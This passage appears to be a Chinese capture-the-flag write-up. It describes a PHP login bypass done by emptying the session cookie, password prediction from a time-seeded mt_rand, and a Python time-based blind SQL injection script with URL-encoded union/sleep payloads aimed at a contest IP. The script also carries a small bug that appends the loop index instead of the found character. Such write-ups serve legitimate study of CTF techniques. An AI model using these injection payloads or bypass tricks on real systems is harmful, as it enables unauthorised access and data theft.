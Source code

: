 ```
$pwd==$_GET['pwd']、$_SESSION['userLogin']==$_GET['login']
```

两个点，第一个可以通过清空cookie，造成NULL==NULL

第二个点则需要本地提前时间生成pwd pwd生成脚本（注:linux时间改成和服务时间一样，时区最好也改了吧，反正我第一次没改时区没有pass）

```
1 &lt;?php
  2 function create_password($pw_length = 10)
  3 {
  4 $randpwd = "";
  5 for($i=0;$i&lt;$pw_length;$i++)
  6 {
  7 $randpwd.=chr(mt_rand(33,126));
  8 }
  9 return $randpwd;
 10 }
 11 echo date("Y-m-d  h:i:sa")."n";
 12 mt_srand(time());
 13 $pwd=create_password();
 14 echo $pwd;
 ?&gt;
```

[![](./img/85901/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01f2a3ca9b5649e736.png)

**just a test**

不知道是谁，在某个地方插了个弹窗。造成XSS的假象，然后打了一中午，发现什么也没有，就很绝望！ 后来队友提醒是不是注入，然后在URL里试了一下真的是注入？？？exm？？？ 先把脚本放上

```
# -*- coding:utf-8 -*-
import requests
import time
flag=""
for j in xrange(1,50):
    for i in xrange(33,127):
        url="http://117.34.111.15:83/chandni-jewel'%20union%20select%20if((select%20ascii(substr(f1ag,"+str(j)+",1))%20from%20test.`fl@g`%20limit%200,1)="+str(i)+",sleep(0.4),1)%2523"
        a=time.time()
        requests.get(url)
        #print time.time()-a
        print '.',
        if time.time()-a&gt;4:
            print chr(i)
            flag=flag+str(chr(j))
            break
print flag
#database() 5 
#database() test
#table1 fl@g
#column f1ag
#http://117.34.111.15:83/chandni-jewel' union select if((select ascii(substr(f1ag," str(j) ",1)) from test.fl@g limit 0,1)=" str(i) ",sleep(0.4),1)%23
#http://117.34.111.15:83/chandni-jewel'%20union%20select%20if((select%20length(column_name)%20from%20information_schema.columns%20limit 1,1)="+str(i)+",sleep(0.4),1)%2523
```

